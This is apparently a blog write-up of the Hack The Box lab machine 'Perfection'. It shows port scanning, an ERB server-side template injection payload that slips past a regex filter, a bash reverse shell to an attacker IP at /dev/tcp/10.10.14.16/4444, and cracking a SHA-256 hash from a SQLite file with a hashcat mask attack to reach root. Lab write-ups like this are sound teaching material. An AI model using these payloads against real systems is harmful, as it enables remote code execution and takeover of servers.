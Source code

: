 ```yaml
---
layaout: post
image: /assets/perfection/perfection.png
title: Perfection Write Up HTB
date: 12-02-2025
categories: [Write ups]
tag: [Hash Cracking,SSTI,Credential Dumping,Linux]
excerpt: "Perfection on Hack The Box is an easy-difficulty Linux machine that revolves around exploiting a vulnerable student score calculation web application and escalating privileges through password cracking. The initial foothold requires leveraging a Server-Side Template Injection (SSTI) vulnerability by bypassing a regex filter, granting access to the machine. From there, privilege escalation involves discovering password hashes stored in a database and performing a mask attack to retrieve credentials, ultimately leading to root access.

This machine is ideal for those looking to understand SSTI exploitation and password-cracking techniques in a real-world scenario"
---
```

![img-description](/assets/perfection/perfection.png)

Perfection on Hack The Box is an easy-difficulty Linux machine that revolves around exploiting a vulnerable student score calculation web application and escalating privileges through password cracking. The initial foothold requires leveraging a Server-Side Template Injection (SSTI) vulnerability by bypassing a regex filter, granting access to the machine. From there, privilege escalation involves discovering password hashes stored in a database and performing a mask attack to retrieve credentials, ultimately leading to root access.

This machine is ideal for those looking to understand SSTI exploitation and password-cracking techniques in a real-world scenario

## ENUMERATION
---
First, we perform an Nmap scan to identify open ports:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.253 -oG allPorts
```

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.253 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-12 21:28 CET
Initiating SYN Stealth Scan at 21:28
Scanning 10.10.11.253 [65535 ports]
Discovered open port 22/tcp on 10.10.11.253
Discovered open port 80/tcp on 10.10.11.253
Completed SYN Stealth Scan at 21:28, 12.20s elapsed (65535 total ports)
Nmap scan report for 10.10.11.253
Host is up, received user-set (0.046s latency).
Scanned at 2025-02-12 21:28:40 CET for 12s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.30 seconds
           Raw packets sent: 65591 (2.886MB) | Rcvd: 65535 (2.621MB)
```

Since port 80 is open, we add it to the `/etc/hosts` file with the corresponding domain:

```bash
vim /etc/hosts
```

Upon accessing the domain, we see the following page:

![Texto alternativo](/assets/perfection/Screenshot%202025-02-12%20214412.jpg)

There is a "calculate" section, which likely uses a template engine on the backend (such as ERB, Jinja2, Twig, etc.). This could be vulnerable to Server-Side Template Injection (SSTI).

## FOOTHOLD
---
To test for SSTI, we send the following payload using Burp Suite and check the response:
**IMP : You need to put several categories or else it won't work**

```bash
Math%0a<%25%3d+IO.popen('id').readlines()+%25>
```

![Texto alternativo](/assets/perfection/Screenshot%202025-02-12%20224947.jpg)

Since the application is vulnerable, we proceed to execute a reverse shell:

```bash
Math%0a<%25%3d+IO.popen('bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.16/4444+0>%261"').readlines()+%25>
```

Set up a listener and execute the payload:

```bash
nc -lvpn 4444
```

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.253] 56024
bash: cannot set terminal process group (1027): Inappropriate ioctl for device
bash: no job control in this shell
susan@perfection:~/ruby_app$ 
```

To improve shell functionality, run:

```bash
script /dev/null -c /bin/bash
```

```bash
susan@perfection:~$ script /dev/null -c /bin/bash
script /dev/null -c /bin/bash
Script started, output log file is '/dev/null'.
```

Now, in Susan's home directory, we find `user.txt`:

```bash
susan@perfection:~$ cat user.txt
03f43e5a1367d8ed6############
```

## PRIVILEGE ESCALATION
---
Inside Susan's home directory, we find a `Migration` folder containing a database.

![Texto alternativo](/assets/perfection/Screenshot%202025-02-12%20230159.jpg)

Since it is a binary file, we use `strings` to extract readable data:

```bash
strings pupilpath_credentials.db
```

```bash
susan@perfection:~/Migration$ strings pupilpath_credentials.db
SQLite format 3
tableusersusers
CREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
...
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
```

### MASK ATTACKS
---
We focus on cracking Susan's password hash. First, create a wordlist containing the prefix `susan_nasus_`:

```bash
echo "susan_nasus_" > wl
```

Save the hash into a file:

```bash
echo "abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f" > hash
```

Identify the hash type:

```bash
hashid -m 'abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f'
```

```bash
[+] SHA-256 [Hashcat Mode: 1400]
```

Using Hashcat to crack the hash:

```bash
hashcat -m 1400 -a 6 hash wl ?d?d?d?d?d?d?d?d?d -O
```

| Command                | Description |
| ---------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **hashcat**            | Runs Hashcat. |
| **-m 1400**            | Specifies the hash type (SHA-256). |
| **-a 6**               | Uses hybrid attack mode, combining a dictionary and a mask. |
| **hash**               | File containing the target hash. |
| **wl**                 | Dictionary file containing the fixed portion of the password (`susan_nasus_`). |
| **?d?d?d?d?d?d?d?d?d** | Mask specifying a 9-digit numeric suffix. |
| **-O**                 | Enables optimized mode, improving performance. |

After some time, we retrieve the password: **susan_nasus_413759210**

```bash
Session..........: hashcat
Status...........: Cracked
...
Recovered........: 1/1 (100.00%) Digests
...
```

Now, we can use `sudo su` to escalate privileges:

```bash
susan@perfection:~$ sudo su
[sudo] password for susan: susan_nasus_413759210

root@perfection:/home/susan# 
```

Retrieve `root.txt`:

```bash
root@perfection:~# cat root.txt
bd91ee880f4328d588############
```

Both flags are now obtained!

